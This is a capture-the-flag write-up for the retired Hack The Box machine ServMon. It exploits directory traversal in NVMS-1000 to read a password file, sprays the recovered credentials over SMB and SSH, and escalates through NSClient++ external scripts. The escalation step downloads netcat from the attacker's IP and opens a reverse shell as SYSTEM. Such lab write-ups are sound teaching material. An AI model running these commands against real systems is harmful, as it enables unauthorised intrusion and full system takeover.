



# ServMon

This is the write-up for the box ServMon that got retired at the 20th June 2020.
My IP address was 10.10.14.15 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.184    servmon.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/servmon.nmap 10.10.10.184
```

```
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst:
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp   open  http
| fingerprint-strings:
|   GetRequest, HTTPOptions, RTSPRequest:
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
(...)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  tcpwrapped
6699/tcp open  napster?
8443/tcp open  ssl/https-alt
| fingerprint-strings:
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions:
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest:
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     workers
|_    jobs
| http-title: NSClient++
|_Requested resource was /index.html
(...)
```

## Checking FTP (Port 21)

On FTP _anonymous login_ is allowed and there are two files in two different user directories:
- _Users/Nadine/Confidential.txt_
```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards
```

- _Users/Nathan/Notes to do.txt_
```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

These names are potential usernames and the text files may contain useful information for the other services.

## Checking HTTPS (Port 8443)

The web page on port 8443 can only be reached with HTTPS and forwards to a login page of **NSClient++**:



> NOTE: The web page does not work properly with Firefox, so it is recommended to use another Browser.

The software [NSClient++](https://nsclient.org/) is an Open-Source monitoring agent that works with different monitoring tools.

By searching for public exploits for this, there are two vulnerabilities for the same version:
```
searchsploit nsclient
```
```
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution
NSClient++ 0.5.2.35 - Privilege Escalation
```

Credentials are needed for the **Remote Code Execution** vulnerability and the **Privilege Escalation** vulnerability requires access to the box, so there is nothing we can do here for now.

## Checking HTTP (Port 80)

The web page forwards to _/Pages/login.htm_ and shows a login form for **NVMS-1000**:



This software is a monitoring client for network video surveillance.
The manual shows that when configuring the software, the administrator sets up a username and password, which means default credentials do not exist.

By searching for public exploits for this, there seems to be a **Directory Traversal** vulnerability:
```
searchsploit nvms
```
```
NVMS 1000 - Directory Traversal
TVT NVMS 1000 - Directory Traversal
```

The vulnerability works on this service and it is possible to read files from the system:
```
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 10.10.10.184
(...)
```

In _Confidential.txt_ it said that there is a _Passwords.txt_ file on _Nathans_ desktop:
```
GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt
```
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Lets try the passwords for the users _Nadine_ and _Nathan_:
```
crackmapexec smb 10.10.10.184 -u servmon_users.txt -p servmon_passwords.txt

crackmapexec ssh 10.10.10.184 -u servmon_users.txt -p servmon_passwords.txt
```
```
SMB         10.10.10.184    445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk
```

One of the passwords work for the user _Nadine_ and we are able to enumerate SMB shares and SSH onto the box.

Enumerating the SMB shares:
```
smbclient -U Nadine -L //10.10.10.184
```
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

The SMB shares are not interesting, so lets access the box with SSH:
```
ssh nadine@10.10.10.184
```

## Privilege Escalation

We know that **NSClient++** runs on the box and there are is a **Privilege Escalation** vulnerability for this software.

The installation directory is in _C:/Program Files/NSClient++_ and the file _nsclient.ini_ contains a password:
```
password = ew2x6SsGTxjRwXOT

allowed hosts = 127.0.0.1
(...)
```

Only login from localhost is allowed, so the port has to be forwarded to our local client.
To do this the [SSH Control Sequences](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/) are used to get a SSH command line:
```
ssh> -L 8443:127.0.0.1:8443
```

Now port 8443 is forwarded through SSH and the web page can be accessed with localhost and allows login:
```
https://127.0.0.1:8443/index.html
```

This software can execute scripts and this is what we will do, to obtain command execution.

Encoding a `ping` command into **Base64**:
```
echo 'ping -n 1 10.10.14.15' | iconv -t utf-16le | base64 -w 0
```

Creating a batch script on the box:
```
nadine@SERVMON C:\Temp> echo powershell -EncodedCommand cABpAG4AZwAgAC0AbgAgADEAIAAxADAALgAxADAALgAxADQALgAxADUACgA= > test.bat
```

Adding a new script on NSClient++:
```
Settings --> external scripts --> scripts --> Add new
```



```
Section: /settings/external scripts/scripts/somenewscript
Key: command
Value: C:\temp\test.bat
```

Saving the configuration and reloading the interface:
```
Changes --> Save configuration

Control --> Reload
```

Running the script:
```
Queries --> somenewscript --> Run --> Run
```

The `tcpdump` listener on my client gets a response back, so command execution is successful.
Lets use the same method to start a reverse shell.

Uploading **netcat64 for Windows** on the box:
```
nadine@SERVMON C:\Temp> curl 10.10.14.15:8000/nc64.exe -o nc64.exe
```

Creating a batch script that executes `nc64.exe`:
```
nadine@SERVMON C:\Temp>echo C:\Temp\nc64.exe -e cmd 10.10.14.15 9001 > test.bat
```

Running the script:
```
Queries --> somenewscript --> Run --> Run
```

After running the script, the listener on my IP and port 9001 starts a reverse shell session as _SYSTEM_!
